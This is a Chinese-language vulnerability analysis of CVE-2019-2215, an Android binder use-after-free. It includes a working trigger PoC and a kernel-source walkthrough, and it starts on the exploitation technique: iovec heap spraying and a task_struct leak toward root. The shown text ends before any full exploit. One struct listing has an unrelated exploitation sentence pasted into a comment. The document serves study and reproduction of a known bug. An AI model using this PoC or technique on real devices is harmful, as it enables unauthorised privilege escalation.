# CVE-2019-2215

复现环境：android 10 kernel: Linux localhost 4.14.150+    arch:x86_64架构

exp只适用于x86(主要是在patch addr_limit上) 其他的架构要根据addr_limit在thread_info或是thread_struct的偏移修改.

## 漏洞简述

CVE-2019-2215是一个谷歌P0团队发现的与binder驱动相关的安卓内核UAF漏洞,配合内核信息泄漏可以实现任意地址读写,进而可以通过权限提升获取一个root权限的shell。

 

## 漏洞分析

主要来根据poc来说明漏洞及其触发

```c
// poc.c
 #include  #include  #include  #include  
 #define BINDER_THREAD_EXIT 0x40046208ul
 
 int main() {
     int fd, epfd;
     struct epoll_event event = {.events = EPOLLIN};
 
     fd = open("/dev/binder", O_RDONLY);
     epfd = epoll_create(1000);
     epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
     ioctl(fd, BINDER_THREAD_EXIT, NULL);
     epoll_ctl(epfd, EPOLL_CTL_DEL, fd, &event);
 }
```

首先是第一句

```c
 fd = open("/dev/binder", O_RDONLY);
```

具体调用的是binder_open

```c
// drivers/android/binder.c 
static const struct file_operations binder_fops = {
     [...]
     .open = binder_open,
     [...]
 };
static int binder_open(struct inode *nodp, struct file *filp)
 {
         struct binder_proc *proc;
         [...]
         proc = kzalloc(sizeof(*proc), GFP_KERNEL);
         if (proc == NULL)
                 return -ENOMEM;
         [...]
         filp->private_data = proc;
         [...]
         return 0;
 }
```

就是malloc了一个binder_proc数据结构，并将将其分配给filep->private_data

下一句  epoll是用来监控文件的

```c
 epfd = epoll_create(1000);
```

看一下它的调用链

```c
 SYSCALL_DEFINE1(epoll_create, int, size)
 {
         if (size <= 0)
                 return -EINVAL;
 
         return sys_epoll_create1(0);
 }
```

可以看出传递的参数没什么用，之后调用	

```c
SYSCALL_DEFINE1(epoll_create1, int, flags)
 {
         int error, fd;
         struct eventpoll *ep = NULL;
         struct file *file;
         [...]
         error = ep_alloc(&ep);
         if (error < 0)
                 return error;
         [...]
         file = anon_inode_getfile("[eventpoll]", &eventpoll_fops, ep,
                                  O_RDWR | (flags & O_CLOEXEC));
         [...]
         ep->file = file;
         fd_install(fd, file);
         return fd;
         [...]
         return error;
 }
```

epoll_create1调用ep_alloc 之后设置ep->file = file 返回文件描述符fd,那重点我们关注ep_alloc

```c
static int ep_alloc(struct eventpoll **pep)
 {
         int error;
         struct user_struct *user;
         struct eventpoll *ep;
         [...]
         ep = kzalloc(sizeof(*ep), GFP_KERNEL);
         [...]
         init_waitqueue_head(&ep->wq);
         init_waitqueue_head(&ep->poll_wait);
         INIT_LIST_HEAD(&ep->rdllist);
         ep->rbr = RB_ROOT_CACHED;
         [...]
         *pep = ep;
         return 0;
         [...]
         return error;
 }
```

因为涉及了较多eventpoll里的参数，对此给出eventpoll的结构来说明这是

```c
struct eventpoll {
	/* Protect the access to this structure */
	spinlock_t lock;

	/*
	 * This mutex is used to ensure that files are not removed
	 * while epoll is using them. This is held during the event
	 * collection loop, the file cleanup path, the epoll file exit
	 * code and the ctl operations.
	 */
	struct mutex mtx;

	/* Wait queue used by sys_epoll_wait() */
	wait_queue_head_t wq;

	/* Wait queue used by file->poll() */
	wait_queue_head_t poll_wait;

	/* List of ready file descriptors */
	struct list_head rdllist;

	/* RB tree root used to store monitored fd structs */
	struct rb_root_cached rbr;

	/*
	 * This is a single linked list that chains all the "struct epitem" that
	 * happened while transferring ready events to userspace w/out
	 * holding ->lock.
	 */
	struct epitem *ovflist;

	/* wakeup_source used when ep_scan_ready_list is running */
	struct wakeup_source *ws;

	/* The user that created the eventpoll descriptor */
	struct user_struct *user;

	struct file *file;

	/* used to optimize loop detection check */
	int visited;
	struct list_head visited_list_link;

#ifdef CONFIG_NET_RX_BUSY_POLL
	/* used to track busy poll napi_id */
	unsigned int napi_id;
#endif
};
```

可以看出在epoll_alloc中 分配struct eventpoll，初始化等待队列 wq和poll_wait成员，初始化rbr成员，该成员是红黑树的根，wq是漏洞触发的关键，在此具体说明是怎么样初始化的

这是wait_queue_head_t的结构

```c
//include/linux/wait.h
 struct __wait_queue_head {
	spinlock_t		lock; //这是锁，可以先不管,不过要明白它是4个字节的
	struct list_head	task_list;//是个双向链表
};

// 
struct list_head {
	struct list_head *next, *prev;};


```

这是init_waitqueue_head函数

```c
#define init_waitqueue_head(q)				\
	do {						\
		static struct lock_class_key __key;	\
							\
		__init_waitqueue_head((q), #q, &__key);	\
	} while (0)
 
  __init_waitqueue_head(wait_queue_head_t *q, const char *name, struct lock_class_key *key)
{	spin_lock_init(&q->lock);
	lockdep_set_class_and_name(&q->lock, key, name);
	INIT_LIST_HEAD(&q->task_list);
}EXPORT_SYMBOL(__init_waitqueue_head);


static inline void INIT_LIST_HEAD(struct list_head *list)
{
	list->next = list;
    list->prev = list;
}
```



首尾相连，在内存中表现是这样的,前一个是next,后一个是prev,就是指向它自己



后面来看下一句

```c
epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
```

```c
SYSCALL_DEFINE4(epoll_ctl, int, epfd, int, op, int, fd,
                 struct epoll_event __user *, event)
 {
         int error;
         int full_check = 0;
         struct fd f, tf;
         struct eventpoll *ep;
         struct epitem *epi;
         struct epoll_event epds;
         struct eventpoll *tep = NULL;
 
         error = -EFAULT;
         if (ep_op_has_event(op) &&
             copy_from_user(&epds, event, sizeof(struct epoll_event)))
                 goto error_return;
 
         error = -EBADF;
         f = fdget(epfd);
         if (!f.file)
                 goto error_return;
 
         /* Get the "struct file *" for the target file */
         tf = fdget(fd);
         if (!tf.file)
                 goto error_fput;
         [...]
         ep = f.file->private_data;
         [...]
         epi = ep_find(ep, tf.file, fd);
 
         error = -EINVAL;
         switch (op) {
         case EPOLL_CTL_ADD:
                 if (!epi) {
                         epds.events |= POLLERR | POLLHUP;
                         error = ep_insert(ep, &epds, tf.file, fd, full_check);
                 } else
                         error = -EEXIST;
                 [...]
         [...]
         }
         [...]
         return error;
 }
```

将epoll_event结构从用户空间复制到内核空间

**·** 查找和文件描述符fd对应的file指针epfd

**·** eventpoll从epoll文件描述符private_data的file指针成员中获取结构的指针epfd

**·** 调用从存储在与文件描述符匹配的结构中的红黑树节点中ep_find找到指向链接epitem结构的指针eventpoll

**·** 如果epitem找不到对应的fd，当事件为EPOLL_CTL_ADD则调用ep_insert函数分配并将其链接epitem到eventpoll结构的rbr成员

接着来看一下ep_insert

```c
 static int ep_insert(struct eventpoll *ep, struct epoll_event *event,
                      struct file *tfile, int fd, int full_check)
 {
         int error, revents, pwake = 0;
         unsigned long flags;
         long user_watches;
         struct epitem *epi;
         struct ep_pqueue epq;
         [...]
         if (!(epi = kmem_cache_alloc(epi_cache, GFP_KERNEL)))
                 return -ENOMEM;
 
         /* Item initialization follow here ... */
         INIT_LIST_HEAD(&epi->rdllink);
         INIT_LIST_HEAD(&epi->fllink);
         INIT_LIST_HEAD(&epi->pwqlist);
         epi->ep = ep;
         ep_set_ffd(&epi->ffd, tfile, fd);
         epi->event = *event;
         [...]
 
         /* Initialize the poll table using the queue callback */
         epq.epi = epi;
         init_poll_funcptr(&epq.pt, ep_ptable_queue_proc);
         [...]
         revents = ep_item_poll(epi, &epq.pt);
         [...]
         ep_rbtree_insert(ep, epi);
         [...]
         return 0;
         [...]
         return error;
 }
```

**·** 分配一个临时结构 ep_pqueue

**·** 分配epitem结构并将其初始化

**·** 初始化epi->pwqlist用于链接轮询等待队列的成员

**·** 设置epitem结构成员ffd->file = file，在我们的例子中，ffd->fd = fd它是file通过调用绑定器的结构指针和描述符ep_set_ffd

**·** 设置epq.epi为epi指针

**·** 设置epq.pt->_qproc为ep_ptable_queue_proc 回调地址

**·** 调用ep_item_poll传递epi和epq.pt（轮询表）的地址作为参数

**·** 最后，通过调用函数epitem将eventpoll结构链接到结构的红黑树根节点ep_rbtree_insert

让我们跟随ep_item_poll并找出它的作用。

```c
 static inline unsigned int ep_item_poll(struct epitem *epi, poll_table *pt)
 {
         pt->_key = epi->event.events;
 
         return epi->ffd.file->f_op->poll(epi->ffd.file, pt) & epi->event.events;
 }
```

这个就是调用binder_poll函数，在内存表现是这样的







接着查看binder_poll

```c
 static unsigned int binder_poll(struct file *filp,
                                 struct poll_table_struct *wait)
 {
         struct binder_proc *proc = filp->private_data;
         struct binder_thread *thread = NULL;
         [...]
         thread = binder_get_thread(proc);
         if (!thread)
                 return POLLERR;
         [...]
         poll_wait(filp, &thread->wait, wait);
         [...]
         return 0;
 }
```

**·** 获取指向binder_proc结构的指针filp->private_data

**·** 调用binder_get_thread传递binder_proc结构的指针

**·** 最后调用poll_wait传递联编程序的file结构指针，&thread->wait即wait_queue_head_t指针和poll_table_struct指针

在其中binder_get_thread和 poll_wait是关键，我们先看一下binder_get_thread

```c
 static struct binder_thread *binder_get_thread(struct binder_proc *proc)
 {
         struct binder_thread *thread;
         struct binder_thread *new_thread;
         [...]
         thread = binder_get_thread_ilocked(proc, NULL);
         [...]
         if (!thread) {
                 new_thread = kzalloc(sizeof(*thread), GFP_KERNEL);
                 [...]
                 thread = binder_get_thread_ilocked(proc, new_thread);
                 [...]
         }
         return thread;
 }
```


**·** 尝试通过调用获取binder_threadifproc->threads.rb_node``binder_get_thread_ilocked

**·** 否则它分配一个binder_thread结构

**·** 最后binder_get_thread_ilocked再次调用，这将初始化新分配的binder_thread结构并将其链接到proc->threads.rb_node基本上是红黑树节点的成员

```c
struct binder_thread {
	struct binder_proc *proc;
	struct rb_node rb_node;
	struct list_head waiting_thread_node;
	int pid;
	int looper;              /* only modified by this thread */
	bool looper_need_return; /* can be written by other thread */
	struct binder_transaction *transaction_stack;
	struct list_head todo;
	bool process_todo;
	struct binder_error return_error;
	struct binder_error reply_error;
	wait_queue_head_t wait; //wait的初始化和epoll->wait是一样的 uaf的触发点 
	struct binder_stats stats;
	atomic_t tmp_ref;
	bool is_dead;
	struct task_struct *task;//exp利用的重点
};
```



对于poll_wait 它实际上调用的是ep_insert中初始化的ep_ptable_queue_proc,这里是**uaf的第2个关键步骤**

```c
 static void ep_ptable_queue_proc(struct file *file, wait_queue_head_t *whead,
                  poll_table *pt)
 {
     struct epitem *epi = ep_item_from_epqueue(pt);
     struct eppoll_entry *pwq;
 
     if (epi->nwait >= 0 && (pwq = kmem_cache_alloc(pwq_cache, GFP_KERNEL))) {
         init_waitqueue_func_entry(&pwq->wait, ep_poll_callback);
         pwq->whead = whead;//将binder_thread->wait付给了pwq->whead
         pwq->base = epi;
         if (epi->event.events & EPOLLEXCLUSIVE)
             add_wait_queue_exclusive(whead, &pwq->wait);
         else
             add_wait_queue(whead, &pwq->wait);
         list_add_tail(&pwq->llink, &epi->pwqlist);
         epi->nwait++;
     } else {
         /* We have to signal that an error occurred */
         epi->nwait = -1;
     }
 }
```

**·** 通过调用函数epitem从结构获取指针poll_table``ep_item_from_epqueue

**·** 分配eppoll_entry结构并初始化其成员

**·** 将structure whead成员设置eppoll_entry为所wait_queue_head_t传递的结构的指针binder_poll，基本上是指向binder_thread->wait

**·** 通过调用链接whead（binder_thread->wait）**add_wait_queue**

其中的add_wait_queue是触发uaf的关键步骤，就此来详细说明

对于add_wait_queue来说，第一个参数是binder_thread->wait，就是首尾相连的双向链表，第二个参数，先来看一下数据结构(这个是eventpoll的)

```c
 struct eppoll_entry {
         /* List header used to link this structure to the "struct epitem" */
         struct list_head llink;
 
         /* The "base" pointer is set to the container "struct epitem" */
         struct epitem *base;在执行取消链接操作之前，remove_wait_queue尝试获取自旋锁。如果值不是0，则线程将继续循环，并且永远不会发生取消链接操作。由于iov_base是一个64位的值，我们希望确保低32位是0。
 
         /*
          * Wait queue item that will be linked to the target file wait
          * queue head.
          */
         wait_queue_entry_t wait;
 
         /* The wait queue head that linked the "wait" wait queue item */
         wait_queue_head_t *whead;
 };

struct wait_queue_entry {
    unsigned int        flags;
    void            *private;
    wait_queue_func_t    func;
    struct list_head    entry;
};
```

接着我们进入函数




执行完后就变这样了,最后那个应该是task_list.prev



说白了就是将eventpoll里面结构的一个节点连接到binder_thread的双向链表上面去

在内存中表现为 wait在binder_thread的+0xa0的偏移

  

binder_thread->wait->list_head 的next prev全都宾的指向0xffff888047797c60

而0xffff888047797c60 储存的是0xffff88800358a930 0xffff88800358a930

poc下一句话

```c
 ioctl(fd, BINDER_THREAD_EXIT, NULL);
```

当调用ioctl 参数为BINDER_THREAD_EXIT时

```c
static long binder_ioctl(struct file *filp, unsigned int cmd, unsigned long arg)
{
        int ret;
        struct binder_proc *proc = filp->private_data;
        struct binder_thread *thread;
        unsigned int size = _IOC_SIZE(cmd);
......
        case BINDER_THREAD_EXIT:
                binder_debug(BINDER_DEBUG_THREADS, "%d:%d exit\n",
                             proc->pid, thread->pid);
                binder_thread_release(proc, thread);
                thread = NULL;
                break;
......
}
static int binder_thread_release(struct binder_proc *proc,
                                 struct binder_thread *thread)
{
......
if (send_reply)
                binder_send_failed_reply(send_reply, BR_DEAD_REPLY);
        binder_release_work(proc, &thread->todo);
        binder_thread_dec_tmpref(thread);
        return active_transactions;
......
}
/////////////////////////////////
static void binder_thread_dec_tmpref(struct binder_thread *thread)
{
......
                binder_free_thread(thread);
                return;
        }
......
}
///////////////////////////////
static void binder_free_thread(struct binder_thread *thread)
{
        BUG_ON(!list_empty(&thread->todo));
        binder_stats_deleted(BINDER_STAT_THREAD);
        binder_proc_dec_tmpref(thread->proc);
        put_task_struct(thread->task);
        kfree(thread);
 
}
```

实际上主要的是kfree了binder_thread

最后一句触发了uaf

```
epoll_ctl(epfd, EPOLL_CTL_DEL, fd, &event);
```

当参数为EPOLL_CTL_DEL时epoll_ctl会调用ep_remove

```c
 static int ep_remove(struct eventpoll *ep, struct epitem *epi)
 {
         [...]
         ep_unregister_pollwait(ep, epi);
         [...]
         return 0;
 }
```

调用ep_unregister_pollwait传递指向eventpoll和epitem结构的指针作为参数的函数

```c
static void ep_unregister_pollwait(struct eventpoll *ep, struct epitem *epi)
{
        struct list_head *lsthead = &epi->pwqlist;
        struct eppoll_entry *pwq;
        while (!list_empty(lsthead)) {
                pwq = list_first_entry(lsthead, struct eppoll_entry, llink);
                list_del(&pwq->llink);
                ep_remove_wait_queue(pwq);
                kmem_cache_free(pwq_cache, pwq);
        }
}
static void ep_remove_wait_queue(struct eppoll_entry *pwq)
{
......    whead = smp_load_acquire(&pwq->whead);
        if (whead)
                remove_wait_queue(whead, &pwq->wait);//whead是binder_thread的wait 然而binder_thread已经free了，&pwq->wait是ep_ptable_queue_proc申请的那个
......
}

void remove_wait_queue(wait_queue_head_t *q,wait_queue_t *wait)
{
......
        __remove_wait_queue(q, wait);
......
}
static inline void __remove_wait_queue(wait_queue_head_t *head,wait_queue_t *old)
{       
 list_del(&old->task_list);
}
static inline void list_del(struct list_head *entry){   
     __list_del(entry->prev,entry->next);   
     entry->next = LIST_POISON1;      
  entry->prev = LIST_POSION2;
}
static inline void __list_del(struct list_head *prev,struct list_head *next){   
     next->prev=prev; //触发了uaf       
 WRITE_ONCE(prev->next,next);//触发了uaf
}
```

next->prev在已经free的binder_thread内部，而prev存放则是binder_thread->wait的地址，因为ep_ptable_queue_proc中将ep的节点加到了binder_thread->wait的所造成的，经过这个之后，结构变如下



其中wait_queue_head_t wait是已经free的binder_thread内部的，而wait_queue_t是eventpoll的.

由此漏洞的触发说明完毕，总结一下就是 

**·** epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);将eventpoll的节点加入到binder_thread的双向链表中

**·**   ioctl(fd, BINDER_THREAD_EXIT, NULL);将binder_thread给free掉

**·** epoll_ctl(epfd, EPOLL_CTL_DEL, fd, &event); 在已经free的binder_thread内部 将wait恢复原状，也就是重新首尾相连

binder_thread的wait在binder_thread偏移0xa0的地方

还没free但是已经link后的binder_thread的内存构造



这是unlink后就是epoll_ctl(epfd, EPOLL_CTL_DEL, fd, &event); 后



## 漏洞利用


#### 前置知识

利用的重点在于用iovec这个结构体去占位释放的binder_thread，就先来介绍一下iovec结构和readv和writev堆喷

```c
 struct iovec
 {
     void __user *iov_base;    /* BSD uses caddr_t (1003.1g requires void *) */
     __kernel_size_t iov_len; /* Must be size_t (1003.1g) */
 };

```

**·** 体积小，在x64位系统上，大小为0x10字节

**·** 我们可以控制所有成员iov_base，iov_len

**·** 我们可以将它们堆叠在一起以控制所需的kmalloc缓存

**·** 它有一个指针指向缓冲区，这是一个比较好的利用条件

接下来查看一下writev系统调用源码，搞清楚如何使用iovec结构

```c
SYSCALL_DEFINE3(writev, unsigned long, fd, const struct iovec __user *, vec,
                 unsigned long, vlen)
 {
         return do_writev(fd, vec, vlen, 0);
 }
 
 static ssize_t do_writev(unsigned long fd, const struct iovec __user *vec,
                          unsigned long vlen, rwf_t flags)
 {
         struct fd f = fdget_pos(fd);
         ssize_t ret = -EBADF;
 
         if (f.file) {
                 [...]
                 ret = vfs_writev(f.file, vec, vlen, &pos, flags);
                 [...]
         }
         [...]
         return ret;
 }
 
 static ssize_t vfs_writev(struct file *file, const struct iovec __user *vec,
                    unsigned long vlen, loff_t *pos, rwf_t flags)
 {
         struct iovec iovstack[UIO_FASTIOV];
         struct iovec *iov = iovstack;
         struct iov_iter iter;
         ssize_t ret;
 
         ret = import_iovec(WRITE, vec, vlen, ARRAY_SIZE(iovstack), &iov, &iter);
         if (ret >= 0) {
                 [...]
                 ret = do_iter_write(file, &iter, pos, flags);
                 [...]
         }
         return ret;
 }
```

**·** writev指针iovec从用户空间到函数do_writev

**·** do_writev通过vfs_writev一些附加参数将相同信息传递给另一个函数

**·** vfs_writev通过import_iovec一些附加参数将相同信息传递给另一个函数

```c
 int import_iovec(int type, const struct iovec __user * uvector,
                  unsigned nr_segs, unsigned fast_segs,
                  struct iovec **iov, struct iov_iter *i)
 {
         ssize_t n;
         struct iovec *p;
         n = rw_copy_check_uvector(type, uvector, nr_segs, fast_segs,
                                   *iov, &p);
         [...]
         iov_iter_init(i, type, p, nr_segs, n);
         *iov = p == *iov ? NULL : p;
         return 0;
 }
```

**·** import_iovec通过一些其他参数将相同的信息传递iovec给另一个函数rw_copy_check_uvector

**·** iovec通过调用来初始化内核结构栈iov_iter_init

```c
 ssize_t rw_copy_check_uvector(int type, const struct iovec __user * uvector,
                               unsigned long nr_segs, unsigned long fast_segs,
                               struct iovec *fast_pointer,
                               struct iovec **ret_pointer)
 {
         unsigned long seg;
         ssize_t ret;
         struct iovec *iov = fast_pointer;
         [...]  
         if (nr_segs > fast_segs) {
                 iov = kmalloc(nr_segs*sizeof(struct iovec), GFP_KERNEL); //writev 堆喷的重点
                 [...]
         }
         if (copy_from_user(iov, uvector, nr_segs*sizeof(*uvector))) {//将我们用户态的内容iovc拷贝到内核态
                 [...]
         }
         [...]
         ret = 0;
         for (seg = 0; seg < nr_segs; seg++) {
                 void __user *buf = iov[seg].iov_base;
                 ssize_t len = (ssize_t)iov[seg].iov_len;
                 [...]
                 if (type >= 0
                     && unlikely(!access_ok(vrfy_dir(type), buf, len))) {
                         [...]
                 }
                 if (len > MAX_RW_COUNT - ret) {
                         len = MAX_RW_COUNT - ret;
                         iov[seg].iov_len = len;
                 }
                 ret += len;
         }
         [...]
         return ret;
 }
```

**·** rw_copy_check_uvector 分配内核空间内存并通过执行以下操作计算分配的 nr_segs*sizeof(struct iovec) 大小

**·** 在这里，nr_segs等于iovec我们从用户空间传递的结构堆栈中的计数

**·** 通过调用函数将iovec结构堆栈从用户空间复制到新分配的内核空间copy_from_user。

**·** iov_base通过调用access_ok函数来验证指针是否有效。

### 泄露task_struct

注意到在binder_thread中存在task_struct,关键是想方法泄露task_struct

```c
struct binder_thread {
	struct binder_proc *proc;
	struct rb_node rb_node;
	struct list_head waiting_thread_node;
	int pid;
	int looper;              /* only modified by this thread */
